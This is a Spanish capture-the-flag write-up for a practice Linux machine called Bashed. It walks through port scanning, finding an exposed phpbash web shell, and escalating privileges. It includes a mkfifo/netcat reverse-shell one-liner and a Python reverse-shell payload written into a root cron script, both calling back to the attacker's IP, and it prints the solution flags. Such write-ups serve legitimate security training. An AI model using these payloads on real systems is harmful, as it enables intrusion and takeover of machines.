


# Bashed (Easy Linux)

**Author:** Ph4n3s
**Fecha:** 21/10/2026
**IP:** 10.129.78.225
**Dificultad:** Easy / Linux

---

## 1. Enumeración

### 1.1 Ping

Primero realizamos un `ping -c 5 10.129.78.225`, obteniendo lo siguiente:

```
64 bytes from 10.129.78.225: icmp_seq=1 ttl=63 time=49.3 ms
```

Con un TTL de 63 (cercano a 64) deducimos que se trata de una máquina Linux.

### 1.2 Enumeración de puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 -oN ~/HTB_machines/Bashed/ports 10.129.78.225
```

```
PORT   STATE SERVICE
80/tcp open  http
```

El único puerto abierto es el 80, un servicio web.

### 1.3 Enumeración de tecnología

```
nmap -p 80 -sVC --min-rate 5000 -T4 -oN ~/HTB_machines/Bashed/targeted 10.129.78.225
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Apache 2.4.18 es una versión de 2015, por lo que podría tener alguna vulnerabilidad conocida. Visitamos la web para ver de qué trata:



Es el blog personal de "Arrexel". El primer post que aparece, titulado **phpbash**, es una pista importante: phpbash es una pseudo-shell en PHP de una sola línea pensada para pentesting, y el propio post dice que la desarrolló *"en este mismo servidor"* — es decir, probablemente esté alojada en algún directorio de esta web.

Hacemos también un `curl -I -v http://10.129.78.225:80/` para revisar la cabecera, pero no obtenemos nada relevante más allá de la petición HTTP/1.1 estándar.

### 1.4 Búsqueda de exploits conocidos

Con `searchsploit apache 2.4` no encontramos nada aplicable a esta versión concreta (los resultados son para 2.4.23 y 2.4.49, versiones distintas), así que descartamos esta vía.

### 1.5 Script vuln de nmap

```
nmap -p 80 -T4 --min-rate 5000 --script vuln -oN ~/HTB_machines/Bashed/vulns 10.129.78.225
```

```
PORT   STATE SERVICE
80/tcp open  http
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|     Disclosure date: 2009-09-17
| http-internal-ip-disclosure:
|_  Internal IP Leaked: 127.0.1.1
| http-enum:
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
```

Aquí ya aparece `/dev/` como directorio interesante, lo que encaja con la pista del post del blog. El Slowloris lo descartamos (es un DoS y no queremos tumbar la máquina).

---

## 2. Fuzzing

Confirmamos el contenido con un diccionario básico:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.78.225:80/FUZZ -mc 200,204,301,302,307,401,403 -t 100
```

```
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 68ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 52ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 49ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 50ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 52ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 55ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 51ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 61ms]
```

Al entrar en `http://10.129.78.225/dev/` encontramos `phpbash.php`, la herramienta mencionada en el blog, ya desplegada y accesible sin autenticación. Es una pseudo-shell web que ejecuta comandos con los permisos del usuario del servidor (`www-data`):



Navegando con ella llegamos a `/home/arrexel/user.txt`:

```
FLAG arrexel -> d31b69773ae699b8a8989cd92bf934a5
```

La primera flag se obtiene sin necesidad de explotar nada más: el propio desarrollador dejó `/dev/` expuesto con su herramienta de pruebas.

---

## 3. Escalada de privilegios

Como ya tenemos ejecución de comandos vía `phpbash`, no hace falta explotar nada adicional; nos centramos directamente en escalar privilegios.

### 3.1 Primer intento

```
sudo -l
```

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

`www-data` puede ejecutar cualquier comando como `scriptmanager` sin contraseña. El intento directo:

```
sudo -u scriptmanager bash -i
```

falla con:

```
bash: cannot set terminal process group (869): Inappropriate ioctl for device
bash: no job control in this shell
```

Este error (`ioctl`) ocurre porque la pseudo-shell de `phpbash` no es una TTY real, así que una bash interactiva no puede gestionar correctamente la entrada/salida del terminal. La solución es abrir una reverse shell de verdad.

### 3.2 Reverse shell como scriptmanager

Con un listener (`nc -lvnp 4444`) en nuestra máquina, lanzamos desde `phpbash`:

```
sudo -u scriptmanager bash -c 'rm -f /tmp/f; mkfifo /tmp/f; (cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.120 4444 > /tmp/f &)'
```

Esto crea un pipe con nombre (`mkfifo`) que conecta la entrada y salida de una shell interactiva con nuestra conexión `nc`, consiguiendo así una shell totalmente funcional como `scriptmanager`.

### 3.3 Escalada final a root

Ya como `scriptmanager`, `su -l` pide una contraseña que no conocemos. Revisando el sistema encontramos la carpeta `/scripts`, con permisos de escritura sobre:

```
test.py
test.txt
```

Esto, junto con el hecho de que son ejecutados periódicamente (probablemente por una tarea cron como root, a juzgar por el nombre de la carpeta), nos permite sobrescribir `test.py` con una reverse shell en Python (payload estándar de GTFOBins):

```python
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.120",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/sh")' > /scripts/test.py
```

Abrimos un segundo listener en el puerto 4445 y esperamos a que el cron ejecute el script. Al poco tiempo recibimos una shell como **root**, con la que navegamos a `/root/root.txt`:

```
Flag root -> ccf156f4bdeb07a6ee1c61cc8561adcf
```

---

## Resumen rápido

**Qué era la máquina:** un servidor Apache con el blog de desarrollo de "Arrexel", que dejó expuesta públicamente (y sin darse cuenta) una pseudo-shell PHP (`phpbash`) en `/dev/`, usada originalmente para sus propias pruebas.

**Enumeración:** `nmap` → solo puerto 80 → el propio blog menciona la herramienta `phpbash` → `nmap --script vuln` y `ffuf` confirman `/dev/` como directorio expuesto.

**Acceso inicial:** `phpbash.php` da ejecución de comandos directa como `www-data`, sin necesidad de explotar nada — fue un error de despliegue, no una vulnerabilidad de código.

**Escalada de privilegios:** `sudo -l` → `www-data` puede ejecutar cualquier comando como `scriptmanager` sin contraseña → una bash interactiva falla por falta de TTY real → se soluciona con una reverse shell por `mkfifo` + `nc` → como `scriptmanager`, se abusa de permisos de escritura sobre un script en `/scripts/` ejecutado periódicamente por un cron como root → se sobrescribe con un payload de reverse shell en Python → shell como root.

**Concepto clave aprendido:** no toda escalada de privilegios depende de un exploit técnico — aquí la clave fue un mal despliegue de una herramienta de pentesting propia (phpbash) y un cron job con permisos de escritura mal configurados. Además, el error `ioctl` por falta de TTY es algo que hay que saber reconocer y resolver con un pipe (`mkfifo`) en lugar de asumir que la máquina está "rota".

---

**Flags:**
- `arrexel/user.txt` → `d31b69773ae699b8a8989cd92bf934a5`
- `root.txt` → `ccf156f4bdeb07a6ee1c61cc8561adcf`
